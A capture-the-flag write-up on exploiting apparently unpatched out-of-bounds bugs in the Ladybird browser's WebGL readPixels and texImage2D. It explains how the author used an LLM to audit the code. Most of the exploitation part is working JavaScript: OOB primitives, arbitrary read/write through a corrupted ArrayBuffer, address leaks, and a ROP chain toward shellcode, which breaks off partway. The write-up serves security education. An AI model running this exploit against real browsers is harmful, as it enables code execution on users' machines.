



# WebGL-Bird

## Description

I found this nice new browser called Ladybird. It would be a shame if one would find a 0day in it and exploit it.

NOTE: The patches are irrelevant to the challenge, they are just there to make WebGL "work" on Linux. The use of the old ladybird version is also irrelevant.

Author: intrigus



## TL;DR

In this task, I was supposed to find and exploit 0-day vulnerabilities in a raw, still-in-development browser called [Ladybird](https://ladybird.org/).

First, I filtered the source code related to the target module (`WebGL`) and loaded it into the `GPT-o3` language model (a.k.a. GoPaTych) with a [prompt](./task/prompt.md) focused on identifying vulnerabilities. After analyzing LLM [responses](./task/response.md), I spotted several vulnerabilities in the `OpenGL` wrappers exposed to the JavaScript interface.

Next, I dove into the logic of the vulnerable functions, understood the bugs, and built out-of-bounds (`OOB`) read and write primitives on top of them. Using those, I created more powerful arbitrary read and write primitives, and finally used them to execute `shellcode` via a `ROP-chain` written to the stack in my [exploit](./task/exploit.js).

## Preface


This was my first time exploiting both a 0-day vulnerability and a browser. So if you’re also stepping into this unknown territory, I hope this writeup helps you navigate it a little easier.

Along the way, I used a language model (`GPT-o3`) to help audit source code for vulnerabilities. It’s not a widely adopted technique (yet), but I found it effective for spotting suspicious memory usage. If you haven’t tried it in your workflow, you might want to give it a shot.

Since the challenge involves real, still-undisclosed vulnerabilities in the Ladybird browser, I trust that sharing a public exploitation guide won’t cause harm.

Naturally, everything here is for educational and entertainment purposes only. Don’t go popping shells in your weird friend’s `Ladybird` browser - unless it’s to help them patch it… or maybe just for a harmless little joke.

## Vulnerabilities



### First Look

So, let's start. In this task, we’re given a Docker environment with the Ladybird browser already running. Judging by the [patches](./task/patches/) the author applied to make it work in this setup, we probably just want to thank him sincerely for giving us a ready-to-go environment.

The browser binaries used in this task are built from a known commit, which we can find in the author's [Dockerfile](./task/Dockerfile). According to the task description, the vulnerabilities are still present in the master branch (and at the time of writing this, that was indeed the case).

Since the task mentions a 0-day vulnerability, it's clear that we’ll need the `Ladybird`source code. Let’s clone the repo and check out the exact commit used in the Dockerfile, just to keep things simple:
```bash
git clone https://github.com/LadybirdBrowser/ladybird.git ./Ladybird
cd ./Ladybird && git checkout 223b13ae936d72fe379e2642efd683c1620b547c
```

Now we have a huge browser codebase, and the vulnerability is hidden somewhere inside. So… where should we look first?

### WebGL

According to the task name and the patches the author made, we can reasonably assume that we need to look somewhere inside the `WebGL` module. But what is `WebGL`?

As we can [find](https://developer.mozilla.org/en-US/docs/Web/API/WebGL_API), it's a JavaScript API for rendering high-performance interactive 2D and 3D graphics using the underlying [OpenGL](https://www.opengl.org/) API.

How can we identify which parts of `Ladybird`'s code are related to this module? Let’s simply use `find` to list all files with matching names:

```bash
find Ladybird/ -type f -ipath "*webgl*" \( -iname "*.cpp" -o -iname "*.h" \)
```

After running this command we'll see list of source files from the `WebGL` module inside the `LibWeb` library. This definitely looks like the part of the codebase we should focus on. One interesting thing to notice is the file `Ladybird/Meta/Lagom/Tools/CodeGenerators/LibWeb/GenerateWebGLRenderingContext.cpp`, which appears to be code that generates other source files - not source code itself. Hmm, that looks interesting... Probably, we want to take a look at the generated code.

Fortunately, we can get those files as part of the build process, and the author’s Dockerfile includes build instructions. So, after building Ladybird ourselves and grabbing all the relevant generated source files, we end up with the following list:
```
   174 ./LadybirdGenerated/WebGL2RenderingContextImpl.h
  2383 ./LadybirdGenerated/WebGL2RenderingContextImpl.cpp
   152 ./LadybirdGenerated/WebGLRenderingContextImpl.h
  1972 ./LadybirdGenerated/WebGLRenderingContextImpl.cpp
    29 ./Ladybird/Libraries/LibWeb/WebGL/WebGLTransformFeedback.h
    45 ./Ladybird/Libraries/LibWeb/WebGL/WebGLObject.cpp
    34 ./Ladybird/Libraries/LibWeb/WebGL/WebGLSampler.cpp
    29 ./Ladybird/Libraries/LibWeb/WebGL/WebGLFramebuffer.h
    29 ./Ladybird/Libraries/LibWeb/WebGL/WebGLSampler.h
    37 ./Ladybird/Libraries/LibWeb/WebGL/WebGLActiveInfo.cpp
    39 ./Ladybird/Libraries/LibWeb/WebGL/WebGLActiveInfo.h
    29 ./Ladybird/Libraries/LibWeb/WebGL/WebGLContextAttributes.h
    42 ./Ladybird/Libraries/LibWeb/WebGL/OpenGLContext.h
    34 ./Ladybird/Libraries/LibWeb/WebGL/WebGLUniformLocation.h
    86 ./Ladybird/Libraries/LibWeb/WebGL/WebGL2RenderingContext.h
    34 ./Ladybird/Libraries/LibWeb/WebGL/WebGLTransformFeedback.cpp
    31 ./Ladybird/Libraries/LibWeb/WebGL/WebGLTexture.h
    31 ./Ladybird/Libraries/LibWeb/WebGL/WebGLShader.h
   190 ./Ladybird/Libraries/LibWeb/WebGL/WebGLRenderingContext.cpp
    36 ./Ladybird/Libraries/LibWeb/WebGL/WebGLProgram.cpp
    29 ./Ladybird/Libraries/LibWeb/WebGL/WebGLQuery.h
    18 ./Ladybird/Libraries/LibWeb/WebGL/WebGLRenderingContextBase.h
    36 ./Ladybird/Libraries/LibWeb/WebGL/WebGLTexture.cpp
    39 ./Ladybird/Libraries/LibWeb/WebGL/WebGLShaderPrecisionFormat.h
    35 ./Ladybird/Libraries/LibWeb/WebGL/WebGLRenderbuffer.cpp
    35 ./Ladybird/Libraries/LibWeb/WebGL/WebGLFramebuffer.cpp
   163 ./Ladybird/Libraries/LibWeb/WebGL/WebGLContextAttributes.cpp
    36 ./Ladybird/Libraries/LibWeb/WebGL/WebGLBuffer.cpp
    38 ./Ladybird/Libraries/LibWeb/WebGL/WebGLShaderPrecisionFormat.cpp
    31 ./Ladybird/Libraries/LibWeb/WebGL/WebGLBuffer.h
    28 ./Ladybird/Libraries/LibWeb/WebGL/EventNames.cpp
    34 ./Ladybird/Libraries/LibWeb/WebGL/WebGLVertexArrayObject.cpp
    35 ./Ladybird/Libraries/LibWeb/WebGL/WebGLSync.cpp
    33 ./Ladybird/Libraries/LibWeb/WebGL/ANGLEInstancedArrays.h
   288 ./Ladybird/Libraries/LibWeb/WebGL/OpenGLContext.cpp
    33 ./Ladybird/Libraries/LibWeb/WebGL/WebGLSync.h
    25 ./Ladybird/Libraries/LibWeb/WebGL/EventNames.h
    88 ./Ladybird/Libraries/LibWeb/WebGL/WebGLRenderingContext.h
    24 ./Ladybird/Libraries/LibWeb/WebGL/Types.h
    29 ./Ladybird/Libraries/LibWeb/WebGL/WebGLRenderbuffer.h
    39 ./Ladybird/Libraries/LibWeb/WebGL/WebGLContextEvent.cpp
   170 ./Ladybird/Libraries/LibWeb/WebGL/WebGL2RenderingContext.cpp
    51 ./Ladybird/Libraries/LibWeb/WebGL/ANGLEInstancedArrays.cpp
    34 ./Ladybird/Libraries/LibWeb/WebGL/WebGLQuery.cpp
    31 ./Ladybird/Libraries/LibWeb/WebGL/WebGLProgram.h
    29 ./Ladybird/Libraries/LibWeb/WebGL/WebGLVertexArrayObject.h
    37 ./Ladybird/Libraries/LibWeb/WebGL/WebGLUniformLocation.cpp
    39 ./Ladybird/Libraries/LibWeb/WebGL/WebGLContextEvent.h
    36 ./Ladybird/Libraries/LibWeb/WebGL/WebGLShader.cpp
    45 ./Ladybird/Libraries/LibWeb/WebGL/WebGLObject.h
  1194 ./Ladybird/Meta/Lagom/Tools/CodeGenerators/LibWeb/GenerateWebGLRenderingContext.cpp
  8218 total
```

After counting, we’ll find that there are about `8000` lines of code. That’s not `80000`, so it’s definitely doable during a CTF - but it still takes some effort.

Well, if you read the beginning of this writeup, you can probably guess what we’re going to do with these lines of code...

### Let Him Cook


A few days before the CTF started, I read an interesting [article](https://sean.heelan.io/2025/05/22/how-i-used-o3-to-find-cve-2025-37899-a-remote-zeroday-vulnerability-in-the-linux-kernels-smb-implementation/) about finding a 0-day vulnerability in the Linux kernel using the `GPT-o3` LLM. That got me thinking - could I try something like that myself? And this challenge seemed like the perfect opportunity.

Unfortunately, I don't have access to the `OpenAI` API, so I couldn’t do exactly what the article's author did. But I do have access to a basic chat UI with the `GPT-o3` model.

So, meet GoPaTych - my LLM-neurobro who’s going to handle the code analysis for us. All we need to do is feed him the source files and write some instructions. For merging the files into a single prompt, we can use a simple utility that does exactly what we need: [files-to-prompt](https://github.com/simonw/files-to-prompt):

```bash
files-to-prompt --cxml -n [source files ...] > files4prompt.xml
```

After that, we’ll get a [file](./task/files4prompt.xml) ready to be sent to GoPaTych.

Okay, but what about the prompt? How can we best instruct GoPaTych to find vulnerabilities and avoid him hallucinating? I think the smartest approach is to have him instruct himself based on our high-level analysis goals:

1. We need to analyze the source code of `Ladybird`’s `WebGL` module for vulnerabilities.
2. Since we want to pwn it, we should focus on memory-safety vulnerabilities.
3. We should be able to trigger the vulnerabilities from our web page, most likely through the `WebGL` JavaScript API.

Combined with the need to avoid hallucinations, we end up with the following prompt... prepared by GoPaTych, for GoPaTych. Amazing, isn’t it?
```Markdown
You are an expert in browser security and vulnerability research.
Your task is to audit the C++ implementation of the WebGL subsystem in the Ladybird browser.

## Target
- The code comes from the Ladybird browser's WebGL module, written in C++.
- This module is exposed to JavaScript through the WebGL1/WebGL2 APIs.

## Research Objective
- Identify real, actionable memory-safety issues.
- You must only focus on bugs **that can be realistically reached and triggered via JavaScript in a browser environment.**

## Workflow
- Begin from exposed JS-facing WebGL methods.
- Trace attacker-controlled input into native C++ code.
- For any valid issue found, explain:
  - The full code path from JS to the native bug
  - Why the behavior is unsafe or leads to memory corruption
  - Whether and how it can be triggered from JS
  - If possible: how to provoke a crash, leak, or exploit

## Input Format
You will receive one or more C++ source files, encoded in the following XML format:

    <document index="N">
    <source>./path/to/file.cpp</source>
    <document_content>
      1  #include <SomeHeader.h>
      2  void foo() { ... }
    </document_content>
    </document>

You must:
- Treat the `<source>` tag as the file path.
- Treat the `<document_content>` tag as the contents of that source file.
- Parse each file correctly as part of a unified codebase.
- Begin analysis **only after** the XML input is provided.

## Strict Constraints (Do Not Skip!)
- **NEVER fabricate or assume any code or symbol.** Work only with what is explicitly shown.
- **NEVER guess.** If a symbol, variable, or context is missing, say so and request more information.
- If a possible issue cannot be **proven to be exploitable from JS**, say so clearly.
- Prefer to say **"I don't know"**, **"Not enough context"**, or **"Cannot determine yet"** rather than offering a speculative answer.
- Avoid false positives. Be skeptical, rigorous, and honest.
- Do not stop audit after finding one or two vulnerabilities - look at the whole code and find as much vulnerabilities as you can

Only begin your audit once the XML document is provided
```
After the first try and just one minute of waiting, GoPaTych responded to this prompt with a [description](./task/response.md) of the vulnerabilities. After manual verification, I confirmed that he wasn’t hallucinating. In fact, he found everything we needed to pwn it!

While writing this writeup, I tried to reproduce the results - and in almost every run (with his memory disabled, if we can believe `OpenAI`), GoPaTych identified the same vulnerabilities (and sometimes even more...).

So, if you want, you can try reproducing it yourself using [files4prompt.xml](./task/files4prompt.xml) and [prompt.md](./task/prompt.md).

To be honest, this isn’t the most representative use of GoPaTych’s vulnerability-hunting abilities - because, as we’ll see later, the vulnerable code is part of some very raw C++.

It looks like it was written as quickly as possible, with all the obvious safety checks (and tests) left out as a result. Or maybe the code is this vulnerable because of the very nature of code generation itself - it’s just harder to write proper code inside the string literals of a code generator.

Anyway, let’s move on to the exact vulnerabilities.

### readPixels


I think I came to PWNers Paradise after reading GoPaTych’s response. Let’s look at the first vulnerable function, `read_pixels`, which corresponds to the `readPixels` `WebGL` JS method:
```cpp
void WebGL2RenderingContextImpl::read_pixels(WebIDL::Long x, WebIDL::Long y, WebIDL::Long width, WebIDL::Long height, WebIDL::UnsignedLong format, WebIDL::UnsignedLong type, GC::Root<WebIDL::ArrayBufferView> p
ixels)
{
    m_context->make_current();

    if (!pixels) {
        return;
    }

    void *ptr = nullptr;
    if (pixels->is_data_view()) {
        auto& data_view = static_cast<JS::DataView&>(*pixels->raw_object());
        ptr = data_view.viewed_array_buffer()->buffer().data();
    } else if (pixels->is_typed_array_base()) {
        auto& typed_array_base = static_cast<JS::TypedArrayBase&>(*pixels->raw_object());
        ptr = typed_array_base.viewed_array_buffer()->buffer().data();
    } else {
        VERIFY_NOT_REACHED();
    }

    glReadPixels(x, y, width, height, format, type, ptr);
}
```

This function simply copies pixels into the destination JS `ArrayBuffer` via `OpenGL`’s `glReadPixels`. As we can see, there are no checks against the length of the `ArrayBuffer`’s underlying buffer. So, with the right combination of `x`, `y`, `width`, and `height`, we can write as many pixels - actually, our own data - as we want. As a result we have probably unlimited out-of-bound write vulnerability.


Sounds pwnable, doesn’t it?

But a write-only vulnerability is often unexploitable under modern default restrictions like `ASLR`. So... maybe we need a read primitive too?

Hold my beer - GoPaTych definitely knew what vulnerabilities to give me.


### texImage2D

Here is the source code of the second vulnerable function, `tex_image2d`, which corresponds to the `texImage2D` `WebGL` method:

```cpp
void WebGL2RenderingContextImpl::tex_image2d(WebIDL::UnsignedLong target, WebIDL::Long level, WebIDL::Long internalformat, WebIDL::Long width, WebIDL::Long height, WebIDL::Long border, WebIDL::UnsignedLong for
mat, WebIDL::UnsignedLong type, GC::Root<WebIDL::ArrayBufferView> pixels)
{
    m_context->make_current();

    void const* pixels_ptr = nullptr;
    if (pixels) {
        auto const& viewed_array_buffer = pixels->viewed_array_buffer();
        auto const& byte_buffer = viewed_array_buffer->buffer();
        pixels_ptr = byte_buffer.data();
    }
    glTexImage2D(target, level, internalformat, width, height, border, format, type, pixels_ptr);
}
```

This vulnerability is very similar to the one in `read_pixels`. But this time, it performs a read of pixels from the `ArrayBuffer`’s underlying buffer - again, without any checks on its length. And just like `read_pixels`, it results in an out-of-bounds read vulnerability.

Well… no further commentary needed.

### Is That All?

I think we already have more than enough to pwn it - but as I mentioned earlier, there are probably more vulnerabilities lurking in those generated source files. I don’t even know how many... You can experiment with prompts and runs (or even read the source code yourself...) to try finding more. But I imagine that when it comes time to patch them, they’ll all get fixed together anyway.

## Exploitation

And now, we move on to the part I’ll never outsource to GoPaTych. Of course, I believe in him... but there should be at least some joy left in the task for humans.

So, let’s get to the exploitation.

### Preparation

Of course, before exploitation comes a bit of preparation. First of all, we need to run the task environment locally. Fortunately, we have the author's Dockerfile with everything we need for that.

However, the original Dockerfile builds Ladybird from source with patches - while we already have the prebuilt binaries. So here’s a slightly modified version tailored to our needs ([Dockerfile-run](./task/Dockerfile-run)):
```Dockerfile
FROM debian:12 AS flag-reader
RUN apt-get update && apt-get install -y gcc \
&& apt-get clean
COPY read_flag.c .
RUN gcc -o /read_flag read_flag.c

FROM debian:12
RUN apt-get update && apt-get install -y gcc \
libgl1-mesa-dri \
libgl1-mesa-glx \
mesa-utils \
xvfb \
socat \
python3 \
libqt6core6 \
libqt6gui6 \
libqt6widgets6 \
libqt6network6 \
libopengl0 \
libpulse0 \
libxi6 \
libvulkan1 \
libatomic1 \
libcrypt1 \
libbsd0 \
libmd0 \
libxnvctrl0 \
qt6-qpa-plugins \
gdbserver \
&& apt-get clean

WORKDIR /work/ladybird
ARG FLAG=GPNCTF{fake_flag}
RUN echo "$FLAG" > flag.txt
COPY --from=flag-reader /read_flag .
RUN chmod u+s read_flag && \
chmod 700 flag.txt

RUN useradd -m ctf
USER ctf

ENV XDG_RUNTIME_DIR=/home/ctf/.xdg-runtime
ENV DISPLAY=:99

COPY bin/Ladybird bin/
COPY libexec/RequestServer libexec/
COPY libexec/WebContent libexec/
COPY libexec/ImageDecoder libexec/
COPY share/ share/

COPY --chmod=555 run.sh run.sh
COPY --chmod=555 socat.sh socat.sh
COPY --chmod=555 server.py server.py

ENTRYPOINT ["sh", "-c", "Xvfb :99 -screen 0 1280x720x24 & ./socat.sh" ]
```
And here’s the container start script ([docker.sh](./task/docker.sh)):
```bash
#!/bin/bash

docker run \
  -d \
  --rm \
  --name ladybird \
  -v .:/shared \
  -p 14140:14140 \
  -p 31337:31337 \
  --privileged \
  --cap-add SYS_PTRACE \
  ladybird
```
With the setup above, we can easily run, debug, and eventually exploit the browser.

Since the vulnerable code is accessible via the JS API, we’ll also need a bit of JavaScript scaffolding to make exploitation more convenient:
```JavaScript
// Secret debugging technique
function sleep(s) {
  const ms = 1000 * s
  const start = Date.now();
  while (Date.now() - start < ms) {}
}

// Unpack 8-byte BigInt from bytes
function unpack(bytes, offset = 0)
{
  let n = 0n;
  for (let i = 7; i >= 0; --i) {
    n = (n << 8n) | BigInt(bytes[offset + i]);
  }
  return n;
}

// Pack 8-byte BigInt to bytes
function pack(value, out = new Uint8Array(8), offset = 0)
{
  let v = value;
  for (let i = 0; i < 8; ++i) {
    out[offset + i] = Number(v & 0xffn);
    v >>= 8n;
  }
  return out;
}

// Write any 64-bit values to console in convenient format
function loghex(num)
{
  console.log('0x'+num.toString(16))
}
```
And finally, here’s a small starter script for uploading our exploit to the container and running it using author's environment ([runner.py](./task/runner.py)):
```Python
#!/usr/bin/env python3

from pwn import *
from sys import argv
from base64 import b64encode

file     = open(argv[3], 'rb').read()
file_b64 = b64encode(file)

io = remote(argv[1], int(argv[2])) if args.LOCAL else remote(argv[1], int(argv[2]), ssl=True)
io.sendlineafter(b'empty line:\n', file_b64)
io.sendline(b'')
io.interactive()
```
Now, let’s implement our basic primitives.

### OOB Read & Write

Before we start playing around with `Ladybird`’s memory, we need to extract some useful exploitation patterns from our vulnerabilities. As we’ve seen, we can read pixels from `OpenGL` into a JS `ArrayBuffer` without any bounds checking - and we can write them there the same way.

Let’s abstract this into a generic read/write primitive: something that allows us to write data to an `ArrayBuffer` out-of-bounds, and read from it out-of-bounds as well. To get there, we’ll need to study how to work with `WebGL` API.

I’ll leave this boring part for some frontend enjoyers (you can ask GoPaTych about it any time), and we arrive at the following code:
```JavaScript
  // Build OOB primitives using vulnerabilities and WebGL logic

  const gl     = cnv.getContext("webgl2");
  const tex    = gl.createTexture();
  gl.bindTexture(gl.TEXTURE_2D, tex);

  // One OOB function
  // It represents simetry of exploited vulnerabilities
  function oob(src, dest, sz)
  {
    const pw = sz;
    const ph = 1;

    gl.texImage2D(
      gl.TEXTURE_2D,
      0,
      gl.RGBA,
      pw,
      ph,
      0,
      gl.RGBA,
      gl.UNSIGNED_BYTE,
      src
    );

    const fbo = gl.createFramebuffer();
    gl.bindFramebuffer(gl.FRAMEBUFFER, fbo);
    gl.framebufferTexture2D(gl.FRAMEBUFFER, gl.COLOR_ATTACHMENT0,
                            gl.TEXTURE_2D, tex, 0);

    gl.readPixels(0, 0, pw, ph, gl.RGBA, gl.UNSIGNED_BYTE, dest);
  }
```
This `oob` function captures the symmetry of our vulnerabilities quite nicely - they do essentially the same thing, just in opposite directions. This `oob` function simply copies one `ArrayBuffer` to another one without any checks against source and destination sizes. With this function, we can build actual `OOB` primitives:
```JavaScript
  // Write src to victim ignoring its size
  function oob_write(victim, src)
  {
    oob(src, victim, src.length);
  }

  // Read dest from victim ignoring its size
  function oob_read(victim, dest)
  {
    oob(victim, dest, dest.length);
  }
```
After that, we can start doing interesting things with... well, with what, exactly?

Probably with whatever lies in memory right after our exploited `ArrayBuffer`.

But what’s actually there?

### Memory Layout

Oddly enough, our `OOB` read/write gives us access to whatever objects we allocate after the exploited `ArrayBuffer`’s underlying buffer. Since we’re definitely going to understand the memory layout of the exploited `ArrayBuffer` itself, let’s try placing a few `ArrayBuffer`s one after another in memory and inspecting them in the debugger with the following simple code:
```JavaScript
let biba = new Uint8Array(0x08).fill(0x77);
let boba = new Uint8Array(0x88).fill(0x66);
console.log(biba, boba);
sleep(1000);
```
In Ladybird, we’ll see this:
```
286622.512 WebContent(887): (js log) [Uint8Array]
  buffer: [ArrayBuffer] @ 0x000076140c479400
  length: 8
  byteLength: 8
[ 119, 119, 119, 119, 119, 119, 119, 119 ] [Uint8Array]
  buffer: [ArrayBuffer] @ 0x000076140c4794a0
  length: 136
  byteLength: 136
[ 102, 102, 102, 102, 102, 102, 102, 102, 102, 102, 102, ...
```
Wait - are those object addresses in plain sight? This is definitely PWNers' Paradise...


As we suspected, two locally created `ArrayBuffer`s appear side-by-side in memory. Let’s take a closer look at them in the debugger:
```
pwndbg> x /40gx 0x000076140c479400
0x76140c479400: 0x00005c5dc2239150      0x0000000000000000
0x76140c479410: 0x0000000000000100      0x00007614044bd3e8
0x76140c479420: 0x0000000000000000      0x0000000000000000
0x76140c479430: 0x0000000000000000      0x0000000000000000
0x76140c479440: 0x0000000000000000      0x7777777777777777
0x76140c479450: 0x0000000000000000      0x0000000000000000
0x76140c479460: 0x0000000000000000      0x0000000000000008
0x76140c479470: 0x0000000000000001      0x0000000000000001
0x76140c479480: 0x0000000000000000      0x0000000000000000
0x76140c479490: 0x0000000000000000      0x7ffe000000000000
0x76140c4794a0: 0x00005c5dc2239150      0x0000000000000000
0x76140c4794b0: 0x0000000000000100      0x00007614044bd3e8
0x76140c4794c0: 0x0000000000000000      0x0000000000000000
0x76140c4794d0: 0x0000000000000000      0x0000000000000000
0x76140c4794e0: 0x0000000000000000      0x00005c5df5ebf0e0
0x76140c4794f0: 0x0000000000000088      0x0000000000000000
0x76140c479500: 0x0000000000000000      0x0000000000000088
0x76140c479510: 0x0000000000000000      0x0000000000000001
0x76140c479520: 0x0000000000000000      0x0000000000000000
0x76140c479530: 0x0000000000000000      0x7ffe000000000000
```
First, we notice that both `ArrayBuffer`s are laid out sequentially in memory, and they both have the same 8-byte address at their start:
```
pwndbg> x /gx 0x000076140c479400
0x76140c479400: 0x00005c5dc2239150
pwndbg> x /gx 0x000076140c479400+0xa0
0x76140c4794a0: 0x00005c5dc2239150
```
Let’s inspect that address: `0x00005c5dc2239150`.
```
pwndbg> info symbol 0x00005c5dc2239150
vtable for JS::ArrayBuffer + 16 in section .data.rel.ro ...
```
That’s the vtable pointer of the `ArrayBuffer` object.

And that’s great news for two reasons:
1. The vtable resides inside the binary, so we can leak the binary base address if we read pointer to it.
2. We can overwrite the vtable pointer with our own to hijack control flow.

Alright, let’s keep going. Where’s the actual buffer data stored?
```
pwndbg> x /gx 0x000076140c479400+0x48
0x76140c479448: 0x7777777777777777
pwndbg> x /gx 0x000076140c479400+0xa0+0x48
0x76140c4794e8: 0x00005c5df5ebf0e0
```
Strange... but explainable.

It looks like for `biba` (the first `ArrayBuffer`), `LibJS` decided to store the buffer’s data inline (at `+0x48`), inside the object itself. But for `boba` (the second one), it allocated an external buffer - probably on the heap - and stored the buffer’s address at the same offset (at `+0x48`) where `biba` stores its inline data. Probably it happend because `biba` is small enough.

So, at address `0x00005c5df5ebf0e0`, we’re likely seeing the contents of `boba`'s buffer. Let’s verify that:
```
pwndbg> x /10gx 0x00005c5df5ebf0e0
0x5c5df5ebf0e0: 0x6666666666666666      0x6666666666666666
0x5c5df5ebf0f0: 0x6666666666666666      0x6666666666666666
0x5c5df5ebf100: 0x6666666666666666      0x6666666666666666
0x5c5df5ebf110: 0x6666666666666666      0x6666666666666666
0x5c5df5ebf120: 0x6666666666666666      0x6666666666666666
```
Yep - we were right.

So what does all this mean?

1. We can control whether the `ArrayBuffer`'s data lives inline or in a separate heap buffer.
2. If it's inline (small like `biba`), we can use `OOB` read/write to leak or overwrite both the vtable pointer and the data pointer of the next `ArrayBuffer`.

Sounds like we’ve got enough to at least build stronger primitives.

Let’s do it!

### Arbitrary Read & Write


Now we can simply use a small `ArrayBuffer` with inline data (`trampoline`) to corrupt a larger `ArrayBuffer` that lies right after it in memory (`victim`). Specifically, we can overwrite its real data pointer with a fake one of our choosing. After that, any read/write operation on the corrupted `ArrayBuffer` will access memory at the address we set.

However, since we have to overwrite a contiguous memory region before we can access the target data pointer, we need to preserve the original data when doing the overwrite. To handle this, we just read the original contents first - and then write them back with our modification in place.


With this idea, we arrive at the following code:
```JavaScript
  // Buffer to store data for readig/writing
  let buffer     = new Uint8Array(0xa8);
  // trampoline buffer we will use for OOB access
  // NOTE: It is small to force LibJS to use some
  //       "Objects" storage for it instead of normal heap.
  //       With small size sensitive data of victim_ab will
  //       be stored right after the trampoline's ArrayBuffer.
  let trampoline = new Uint8Array(0x20).fill(0x77);
  // ArrayBuffer we will corrupt
  let victim_ab  = new ArrayBuffer(0x300);
  let victim     = new Uint8Array(victim_ab);

  // 8-byte arbitrary read primitive based on writing arbitrary address in place of victim's pointer
  function readq(address)
  {
    oob_read(trampoline, buffer);
    buffer.set(pack(address), victim_pointer_o);
    oob_write(trampoline, buffer);
    return unpack(victim.slice(0x00, 0x08));
  }

  // 8-byte arbitrary write primitive similar to read
  function writeq(address, value)
  {
    oob_read(trampoline, buffer);
    buffer.set(pack(address), victim_pointer_o);
    oob_write(trampoline, buffer);
    victim.set(pack(value), 0x00);
  }
```
Before we move to arbitrary code execution, we need to solve one small problem: `ASLR`.

This problem is really small, because as we’ve seen earlier, we can simply leak the binary base address and the heap address of the second (`victim`) `ArrayBuffer`’s data using our `OOB` read primitive with our `trampoline`.

Here’s how we can do it:
```JavaScript
  // Just one OOB read to leak addresses
  oob_read(trampoline, buffer);

  // Leak of binary base
  const binary        = unpack(buffer.slice(ab_vtable_o, ab_vtable_o+0x08)) - binary_leak_o;
  loghex(binary);
  // Leak heap address of shellcode
  const victim_ab_buf = unpack(buffer.slice(victim_pointer_o, victim_pointer_o+0x08));
  loghex(victim_ab_buf);
```
### Here We Execute Again

Well, we have an unlimited arbitrary read/write primitive, the binary base address, and the address of some data we control on the heap.

I think if I were a mathematician, I’d say we’ve reduced our task to a previously solved one - actually, a very common one. We’re not going to reinvent the wheel, so here’s what we need to do, without a doubt:

1. Leak a `libc` address from the `binary`’s `GOT` using arbitrary read  
2. Leak the `stack` address from `libc`’s `environ` using the same method  
3. Use arbitrary write to place a `ROP-chain` on the `stack`, right where it’ll get executed after our script finishes

But what should this `ROP-chain` actually do?

The simplest solution would be to pop a shell using `system("/bin/sh")`. But if we want to really pwn it, we’ll go one level deeper and execute arbitrary code (`shellcode`). And honestly, in our case, that’s not much harder than popping a shell. Here’s how we can do it:

1. Prepare the `shellcode` and place it in the `victim`’s buffer before we corrupt it  
2. Leak the `shellcode`’s address together with the `binary` base (we’ve already done this by leaking `victim_ab_buf`)  
3. Call `mprotect` on the page containing the `shellcode`, granting it `RWX` permissions from our `ROP-chain`
4. Jump to the `shellcode` at the end of our `ROP-chain`

Now, we easily end up with the following common general method to execute arbitrary code using our primitives and leaks:
```JavaScript
  // Address of read GOT entry
  const read_got = binary + read_got_o;
  loghex(read_got);
  // Leak libc from read GOT entry
  const libc = readq(read_got) - libc_leak_o;
  loghex(libc);
  // Leak stack from libc's environ
  const stack = readq(libc + environ_o);
  loghex(stack);

  // Compute target address for ROP - somewhere before JS script execution in call stack
  const ret   = stack - ret_o;
  let   ropsz = 0x00n;

  // Add 8-byte to ROP
  function p(q)
  {
    writeq(ret + ropsz, q);
    ropsz += 0x08n;
  }

  // ROP
  p(binary + pop_rdi_o);        // rdi -> page of shellcode
  p(victim_ab_buf & (~0xFFFn));
